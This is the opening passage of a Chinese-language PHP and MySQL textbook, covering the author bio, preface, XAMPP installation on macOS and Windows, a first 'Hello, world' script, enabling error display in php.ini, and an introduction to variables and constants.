## PHP MySQL：课程与习题解析


---

### 关于作者

Maximilien Lambert 是一位经验丰富的 Web 开发人员和数字技术领域的培训师。凭借其公认的专业知识，他曾在世界知名机构主持过众多国际培训课程和研讨会。他卓越的教学方法赢得了学员的高度赞誉，这得益于他将复杂概念简化并使其人人可懂的能力。

作为一名拥有 20 多年经验的大学讲师，Maximilien Lambert 分享着他对学习和传授 IT 知识的热情。他丰富的教育领域经验使他能够激励世界各地的几代学习者，不仅传授技术技能，还传递 Web 开发行业的全球视野。

Maximilien Lambert 热衷于知识共享，擅长传授计算机技能，激励着世界各地的几代学习者。除了教学活动外，他还为专业人士提供专业培训，帮助他们磨练技能，保持在各自领域的前沿。

他对卓越的追求、对教学的热爱以及技术专长，使 Maximilien Lambert 成为 Web 开发和数字培训领域的重要参考标杆。

---


---

### 前言

在瞬息万变的数字世界中，掌握 PHP 等 Web 编程语言以及操作 MySQL 等数据库，是任何有志于成为 Web 开发人员的关键技能。本书《PHP & MySQL：掌握动态 Web 开发》经过精心设计，旨在引导您完成学习的每一个阶段，从入门到进阶。

### A 部分：掌握 PHP 编程基础

在第一部分中，我们将深入 PHP 编程的核心，探索变量、常量、运算符、条件结构、循环、函数和数组。您将学习如何操作数据、控制程序流程并高效地组织代码。

#### B 部分：高级数据管理与浏览器交互

第二部分将带您进一步深入动态 Web 开发，教授您如何与浏览器交互。您将学习如何管理表单数据、操作图像和文件，以及建立会话和 Cookie 以创建交互式用户体验。

### C 部分：MySQL 数据库管理

数据库管理是 Web 开发的重要环节。在本部分中，您将学习如何设计和操作 MySQL 数据库，从连接数据库到插入、检索、更新和删除数据。

#### D 部分：Web 应用安全

Web 应用安全至关重要。本章将为您提供保护 PHP 应用免受常见攻击（如 SQL 注入、跨站脚本攻击 (XSS) 和跨站请求伪造 (CSRF)）所需的知识。

#### E 部分：PHP 面向对象编程

面向对象编程 (OOP) 是一种强大的范式，允许您以模块化和可复用的方式构建代码。在本部分中，您将发现 OOP 的基本概念，包括类、对象、封装、继承、接口、抽象类、异常、命名空间和 Traits。

每一章都配有大量示例，并附有简单详细的解释。


有些章节配有实操练习，让您将知识付诸实践；为帮助您检验理解程度，书末提供了每个练习的参考答案。

我们坚信，本书将为您提供成为一名合格且成就卓著的 PHP 开发人员所需的工具。无论您是渴望学习新技能的初学者，还是希望深化知识的资深专业人士，《PHP & MySQL：掌握动态网站开发》都是您学习旅程中的理想伴侣。

阅读愉快，学习愉快！

编辑团队

您可以指望我们的支持！

如果您对本书的任何方面有疑问，或需要任何帮助，请发送电子邮件至 `contact@skilldeve.com`，并在主题行中注明书名。

分享您的观点

我们期待您的反馈！在探索了《精通 HTML 和 CSS：从入门到专家》的页面后，我们鼓励您分享您的观点。操作很简单，只需点击以下链接即可访问亚马逊上专门针对本书的评论页面。您的反馈非常宝贵，不仅对我们，对整个技术社区也是如此。您的反馈将帮助我们保持内容质量在最佳水平。我们期待阅读您的想法，并了解本书如何丰富了您的 HTML 和 CSS 知识。


### 简介与开发环境

在本介绍性章节中，我们将深入探索使用 `PHP` 和 `MySQL` 进行 Web 开发的迷人世界。我们将从探究网站如何工作入手，考察静态网站与动态网站的区别，以及与各类网站相关的编程语言。随后，我们将聚焦于 `PHP` 编码的开发环境，包括搭建本地 `Apache` 服务器和 `MySQL`，以便在我们自己的机器上创建和测试 Web 应用程序。

#### 网站是如何工作的？

提到网站如何工作，通常会区分两大主要类型：静态和动态。

在深入细节之前，有必要澄清两个基本组成部分：客户端，对应用户的计算机；服务器，托管网站。

根本问题是：这两方是如何相互通信的？

要回答这个问题，我们需要考察每种类型网站特有的通信过程。

对于静态网站，通信分两个简单步骤进行：

*   客户端向服务器发送请求以显示网页；
*   服务器响应并将请求的网页发送回客户端。

具体而言，在此场景下，服务器将网页作为静态文件存储，并原样发送给客户端，无需任何进一步的修改或处理。



对于动态网站，流程则稍微复杂一些，多了一个中间步骤：

*   客户端向服务器发送请求以显示网页；
*   服务器不只是简单返回现有页面，而是根据客户端的具体请求动态生成页面；
*   服务器随即将新生成的页面发送给客户端。

在这种情况下，服务器执行实时处理和计算，为每个客户端请求创建个性化页面。

总之，静态网站与动态网站的根本区别在于网页生成和交付给用户的方式，这在数据处理和内容个性化方面有着重大影响。



#### 适用于各类网站的编程语言

网站大体分为两类：静态和动态。每类网站使用特定的编程语言进行开发。

##### 静态网站

静态网站主要使用标记语言构建，如 `HTML`（超文本标记语言）和 `CSS`（层叠样式表）。`HTML` 用于构建网页内容结构，定义标题、段落、图片等元素。`CSS` 用于设置这些元素的样式和格式，控制其视觉外观。

##### 动态网站

动态网站需要与数据库交互，并使用服务端编程语言根据用户请求生成个性化内容。常用于动态 Web 开发的编程语言包括 `PHP`（超文本预处理器）、`Python`、`ASP .NET`、`Java`、`JavaScript` 和 `Ruby` 等。`PHP` 因其简洁性、灵活性以及与众多数据库管理系统（尤其是 `MySQL`）的兼容性，成为服务端 Web 开发最流行的语言之一。`Python` 和 `Ruby` 因其动态 Web 开发能力和富有表现力的语法也被广泛使用。

了解适用于各类网站的编程语言，对于为特定项目选择最合适的技术、开发健壮且功能完善的网站至关重要。

#### 开发环境

网站开发主要有两种方法：

##### 本地开发

这种方法是在自己的计算机上工作，使用特定的开发环境来创建和测试网站。开发完成后，再将网站传输到远程托管服务器，使其可通过互联网访问。这种方法通常更受青睐，因为它提供了一个隔离的工作环境，且不需要永久的互联网连接。本书将详细探讨如何搭建这一开发环境。

##### 远程开发

采用这种方法，网站开发直接在托管开发中网站的远程服务器上进行。这种方法适合在需要与其他团队成员实时协作的复杂项目上工作的经验丰富的开发人员。它还支持在投入生产前在不同浏览器和操作系统上测试网站。

简而言之，选择本地开发还是远程开发，取决于项目的具体需求、开发人员的经验以及可用资源。本书展示的所有示例均在本地测试通过后，再部署到远程服务器。

要在我们的机器上开发动态网站，需要以下几个要素：

*   **Apache 服务器**：这是负责管理网站的 Web 服务器。然而，默认情况下，`Apache` 只能处理静态网站，即 `HTML` 页面。要使其也能处理 `PHP`，必须添加一个插件。将 `Apache` 与 `PHP` 结合，我们的计算机就能读取用 `PHP` 编写的网页。
*   **数据库管理系统 (DBMS)**：由于动态网站需要与数据库交互，数据库管理工具必不可少。`MySQL` 是此目的最常用的 DBMS 之一。



幸运的是，有软件程序能让在计算机上安装这些组件变得容易得多。根据您使用的操作系统，可以从以下选项中选择：

*   Windows 系统：`WAMP Server` [`http://www.wampserver.com/`](http://www.wampserver.com/)
*   Mac 系统：`MAMP` [`https://www.mamp.info/en/downloads/`](https://www.mamp.info/en/downloads/)
*   Linux 系统：`XAMPP` [`https://www.apachefriends.org/fr/download.html`](https://www.apachefriends.org/fr/download.html)

`XAMPP` 有三个不同版本：分别适用于 Windows、Mac 和 Linux。虽然它比其他选项（`WAMP` 和 `LAMP`）功能更全面，但无需使用其所有功能。本书将安装 `XAMPP`，因其通用性强。不过，您可以自由选择 `XAMPP`、`MAMP` 或 `WAMP`，因为三者的基本操作原理相同。

#### 在 Mac OS 上下载并安装 XAMPP

以下是在 macOS 上下载并安装 `XAMPP` 的步骤：

1.  访问 Apache Friends 官方网站：[`https://www.apachefriends.org/fr/download.html`](https://www.apachefriends.org/fr/download.html)


### 在 macOS 上下载并安装 XAMPP

在下载页面，你将看到不同版本的 XAMPP。通过点击相应的下载按钮，选择最适合 macOS 的版本。



下载完成后，打开下载的文件（应位于 Mac 的“下载”文件夹中）。

双击安装文件以开始 XAMPP 安装过程。

按照屏幕上的说明在 Mac 上安装 XAMPP。你可能需要输入管理员密码以授权安装。



当你点击 XAMPP 图标时，可能会出现一个警告窗口，提示“macOS 无法检查此 App 是否包含恶意软件”。在这种情况下，根据你的 Mac 系统版本，你可能需要修改 Mac 的安全设置才能安装 XAMPP：

*   打开“系统设置”。
*   点击“隐私与安全性”，向下滚动并点击“仍要打开”按钮，以确认你打开或安装该 App 的意图。


安装完成后，你将看到一个确认窗口。点击“完成”关闭安装程序。

XAMPP 现已安装在你的 Mac 上。要启动服务（Apache、MySQL 等），请从“应用程序”文件夹打开 XAMPP 并运行 `manager-osx` 文件，然后点击相应按钮以激活所需服务。



服务启动后，你可以通过在浏览器地址栏输入 `localhost` 来访问 XAMPP 管理界面。

这些步骤应能让你成功在 Mac 上下载并安装 XAMPP。

### 在 Windows 上下载并安装 XAMPP

以下是在 Windows 上下载并安装 XAMPP 的步骤：

访问 Apache Friends 官方网站：`https://www.apachefriends.org/fr/download.html`

在下载页面，你将看到不同版本的 XAMPP。通过点击相应的下载按钮，选择最适合 Windows 的版本。

下载完成后，通过双击打开下载的文件。它应位于你通常下载文件的文件夹中。

XAMPP 安装程序将打开。如果 Windows 询问你是否授权更改，请点击“是”。

安装程序将引导你完成安装过程。选择你想要安装的组件（默认全选）并选择安装 XAMPP 的文件夹。

点击“安装”按钮开始安装。等待过程完成。

安装完成后，系统将提示你启动 XAMPP 组件（Apache、MySQL 等）。点击“完成”关闭安装程序。

XAMPP 现已安装在你的电脑上。要启动服务，请从“开始”菜单打开 XAMPP 并点击相应按钮启动 Apache 和 MySQL。

服务启动后，你可以通过在浏览器地址栏输入 `localhost` 来访问 XAMPP 管理界面。

这些步骤应能让你成功在 Windows 电脑上下载并安装 XAMPP。

### 下载并安装文本编辑器

安装 XAMPP 后，我们建议你下载并安装一个文本编辑器，用于编写和编辑代码文件。以下是几款最流行、适合 Web 开发的文本编辑器示例：

**Sublime Text**：Sublime Text 是一款轻量级、高度可定制的文本编辑器，拥有许多对 Web 开发有用的功能，如语法高亮、自动补全和项目管理。

下载链接：`https://www.sublimetext.com/`

**Visual Studio Code**：Visual Studio Code (VS Code) 是由微软开发的源代码编辑器。它具有可扩展性，提供 Git 集成、调试功能以及众多用于 Web 开发的扩展。

下载链接：`https://code.visualstudio.com/`

**Brackets**：Brackets 是由 Adobe 开发的开源文本编辑器。它专为 Web 开发设计，包含实时预览、语法高亮、自动补全和扩展支持等功能。

下载链接：`https://brackets.io/`

你可以选择最适合你 Web 开发需求和偏好的文本编辑器。安装好首选编辑器后，即可开始为 Web 项目创建和编辑代码文件。

### 在 XAMPP 中创建项目

在 XAMPP 中，你不直接创建项目，而是在 `htdocs` 目录中为项目创建目录。具体操作如下：

**查找 htdocs 目录：** `htdocs` 目录是存放网站文件的位置。默认情况下，该目录位于 XAMPP 安装文件夹中。Windows 上通常位于 `C:\xampp\htdocs`，Mac 上位于 `/Applications/XAMPP/htdocs`。

**为项目创建新目录**：在 `htdocs` 目录中，为项目创建一个新目录。你可以给它起任何喜欢的名称，例如 `ebookphp`。

创建项目目录后，你可以将所有网站文件和文件夹放入其中。这可以包括 HTML、CSS、PHP、JavaScript 文件、图片等。

**通过浏览器访问项目：** 将项目文件放入创建的目录后，打开 Web 浏览器，在地址栏输入以下 URL 即可访问你的网站：`http://localhost/ebookphp`。请务必将 `ebookphp` 替换为你为项目创建的目录名称。

遵循这些步骤，你就可以在 XAMPP 中创建并访问项目。请确保在 XAMPP 中启动 Apache 和 MySQL 服务，以便网站正常运行。

### 你的第一个 PHP 脚本

以下是使用 XAMPP 和 `htdocs` 文件夹中创建的 `ebookphp` 目录创建第一个 PHP 脚本的步骤：

按上述说明启动 XAMPP，并通过点击相应的“启动”按钮启动 Apache。确保它们显示为绿色，表示正在运行。

打开你选择的文本编辑器以编写 PHP 脚本。

在文本编辑器中创建一个新文件，并将其保存到 XAMPP 安装目录下 `htdocs` 文件夹中的 `ebookphp` 目录内。将此文件命名为 `first_script.php`。

编写第一个 PHP 脚本：在 `first_script.php` 文件中编写以下 PHP 代码：

```php
<?php

echo "Hello, world!";

?>
```

编写完 PHP 脚本后，保存文件。

启动你常用的 Web 浏览器（如 Google Chrome、Mozilla Firefox 等）。

在浏览器地址栏输入以下 URL：`http://localhost/ebookphp/premier_script.php` 并按“回车”。

你应该会在浏览器中看到显示“Hello, world!”，表明你的第一个 PHP 脚本已成功执行。



恭喜！你刚刚使用 XAMPP 创建并执行了第一个 PHP 脚本。这个简单的例子标志着你使用 PHP 进行 Web 开发的精彩旅程的开始。

### 错误显示

正如你所知，犯错，尤其是语法错误，非常常见，我可以向你保证，世界上没有不犯错的开发人器。因此，显示这些错误的提示非常有用。

事实上，取决于服务器的配置，错误可能完全不显示！许多初学者在浏览器中运行 PHP 页面时发现什么也看不到，感到困惑。没有错误消息，只有一片空白，例如。当代码中存在错误而 PHP 服务器未配置为显示错误时，就会发生这种情况。

要解决此问题，只需对 XAMPP 的 `php.ini` 文件进行一些更改。

要找到该文件的位置，只需将下面的代码添加到之前创建的 `first_script.php` 文件中（或项目中的任何其他文件）。

```php
<?php

phpinfo();

?>
```


此代码用于显示服务器 `PHP` 配置的详细信息。当你在 `PHP` 文件中执行此代码并在浏览器中打开它时，将生成一个网页，其中包含大量关于已安装 `PHP` 版本、已激活模块、配置指令、文件路径、环境变量等信息。

此 `phpinfo()` 页面常用于诊断 `PHP` 配置问题、检查已启用的功能，或仅仅是获取正在使用的 `PHP` 服务器的详细信息。它提供了 `PHP` 环境的有用概览，在开发或配置 Web 应用程序时特别有用。

`php.ini` 文件的完整路径位于 "Loaded Configuration File"（已加载的配置文件）一行中：


找到 `php.ini` 文件后，在文本编辑器中打开它。

查找 `display_errors` 指令。该指令控制 `PHP` 错误是否显示在屏幕上。默认情况下，此指令通常设置为 `Off`。


将 `display_errors` 指令的值更改为 `On`。

你还可以设置 `error_reporting` 指令以指定要显示的错误级别。例如，你可以设置 `error_reporting = E_ALL` 以显示所有错误，或设置 `error_reporting = E_ALL & ~E_NOTICE` 以显示除通知以外的所有错误。



保存对 `php.ini` 的更改。

重启 `Apache` 服务器以使更改生效。

配置完成后，运行 `PHP` 脚本时 `PHP` 错误将显示在屏幕上。这将帮助你在开发网站时更快地诊断和解决错误。

#### 结论

在本介绍章节中，我们采取了几个关键步骤，以建立一个有利于使用 `PHP` 和 `MySQL` 创建动态网站的开发环境。

我们首先安装了 `XAMPP`，这是一个本地 Web 服务器，集成了运行 `PHP` 脚本和与 `MySQL` 数据库交互所需的工具。这一步至关重要，因为它使我们能够在自己的计算机上模拟生产环境，从而促进开发和测试过程。

然后我们创建了第一个 `PHP` 脚本，标志着我们踏入 Web 开发迷人世界的旅程的开始。通过这个简单的示例，我们探索了 `PHP` 脚本的基本结构，包括 `PHP` 标签、输出语句和注释。

最后，我们配置了 `PHP` 以显示错误，这是有效调试 `PHP` 脚本的基本实践。通过启用错误显示，我们能够快速识别并修正代码中的任何语法或逻辑错误。

通过结合这些步骤，我们为使用 `PHP` 和 `MySQL` 进行 Web 开发的学习之旅奠定了坚实的基础。我们现在准备好进一步探索高级概念、创建动态 Web 应用程序，并迎接这一激动人心领域的新挑战。

### A 部分：掌握 PHP 编程基础

在本部分中，我们将探讨 `PHP` 编程的基础知识，`PHP` 是一种功能强大且用途广泛的脚本语言，用于开发动态、交互式 Web 应用程序。

#### 第 1 章：变量、常量、表达式和运算符

我们从 `PHP` 编程的基础开始，包括变量、常量、表达式和运算符。你将学习如何声明变量、为其赋值，以及如何使用表达式和运算符操作这些值。

#### 第 2 章：控制结构（if、else、switch、match、while、for）

在本章中，我们将探讨 `PHP` 中的控制结构，例如 `if`、`else`、`elseif`、`switch` 和 `match` 语句。你将发现如何使用这些结构根据特定条件控制代码的执行流程。

### 第 3 章：PHP 中的循环

在本章中，你将了解如何使用 `while`、`for` 和 `do...while` 循环来遍历和操作数据。

#### 第 4 章：PHP 中的函数和生成器

函数是 `PHP` 编程的基本要素。在本章中，我们将探讨如何在 `PHP` 中定义、调用和使用函数，以及函数内外变量的作用域。我们将详细介绍 `PHP` 中的生成器以及如何使用它们生成值序列。

#### 第 5 章：PHP 中的表/数组

数组是 `PHP` 中必不可少的数据结构。在本章中，我们将发现如何在 `PHP` 中创建、操作和遍历数组，以及它们在 Web 应用程序开发中的实际应用。

#### 第 6 章：PHP 内置函数

`PHP` 提供了大量内置函数，便于 Web 应用程序的开发。在本章中，我们将探讨 `PHP` 中一些最常用的内置函数以及如何在项目中有效地使用它们。

### 第 1 章：变量、常量和运算符

你将在本章学到：

- **变量**：如何在 `PHP` 中声明变量、为其赋值以及管理它们在脚本中的作用域。
- **表达式**：`PHP` 中表达式的构建与求值，包括使用算术、比较和逻辑运算符来操作数据。
- **运算符**：`PHP` 中可用的各种运算符类型，如算术运算符（`+`、`-`、`*`、`/`）、比较运算符（`==`、`!=`、`<`、`>` 等）和逻辑运算符（`&&`、`||`、`!`）。
- **变量的使用**：在 `PHP` 中命名和使用变量的最佳实践，以及管理它们的作用域和在脚本中的处理。
- **字符串连接**：如何使用连接运算符（`.`）在 `PHP` 中组合和操作字符串以创建更复杂的字符串。
- **数据类型的概念**：`PHP` 中不同数据类型的简介，如整数、浮点数、字符串、数组等。
- **类型转换的概念**：如何在 `PHP` 中将数据从一种类型转换为另一种类型，特别是在数字和字符串类型之间。
- **常量的使用**：在 `PHP` 中定义和使用常量，以存储在整个脚本执行过程中不变的值。
- **自增和自减运算符**：使用自增（`++`）和自减（`--`）运算符来修改数值变量的值。
- **特殊赋值运算符**：组合赋值运算符（如 `+=`、`-=`、`*=`、`/=` 等）的语法，用于在一步中执行算术运算并更新变量的值。

通过涵盖这些方面，你将对 `PHP` 中的变量、表达式和运算符有完整且深入的理解，这将帮助你编写高效且功能完善的 `PHP` 脚本。

#### PHP 中变量和常量简介

`PHP` 编程基于使用变量和常量来存储和操作数据。在本章中，我们将详细探讨这两个基本概念及其在动态 Web 应用程序开发中的用法。

| 想象你是一位魔术师，你有一个魔法盒子。这个盒子可以装各种不同的东西。你可以把兔子、硬币、鸽子等放进去。随时，你都可以改变你放在帽子里的东西。这就像 `PHP` 中的变量，你可以在其中存储不同的值并根据需要更改它们。 |  |
| :--- | :--- |
|  | 现在想象你有一个装着你最珍贵宝藏的宝箱。这个箱子坚固且不可摧毁，无论周围发生什么，它总是包含相同的珍贵宝藏。这就像 `PHP` 中的常量，你定义的值永远不会 `change`。 |

##### 在 PHP 中定义变量和常量

在 `PHP` 中，变量是一个命名的存储空间，可以包含一个在脚本执行过程中可修改的值。它由一个名称、一个等号（`=`）和赋值组成。例如：

```php
<?php
$variable_name = "value";
?>
```

另一方面，`PHP` 常量是一个代表在脚本执行期间无法修改的值的命名标识符。它使用 `define()` 函数定义，可在脚本的任何位置使用。例如：

```php
<?php
define("CONSTANT_NAME", "constant_value");
?>
```


##### PHP 编程中正确使用变量和常量的重要性

在 PHP 编程中，正确使用变量和常量至关重要，主要原因如下：

